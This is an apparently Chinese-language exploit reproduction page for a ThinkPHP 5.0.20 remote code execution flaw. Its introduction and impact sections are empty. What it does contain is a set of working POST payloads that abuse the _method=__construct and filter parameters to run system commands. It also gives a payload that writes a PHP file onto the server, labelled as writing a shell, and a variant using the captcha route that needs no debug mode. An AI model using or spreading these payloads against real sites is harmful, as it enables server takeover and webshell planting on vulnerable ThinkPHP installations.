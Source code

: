 Thinkphp 5.0.20
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> https://www.0-sec.org/?s=index/index

    POST 

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert

> 有captcha路由时无需debug=true
>
> https://www.0-sec.org/?s=captcha/calc

    POST 

    _method=__construct&filter[]=system&method=GET
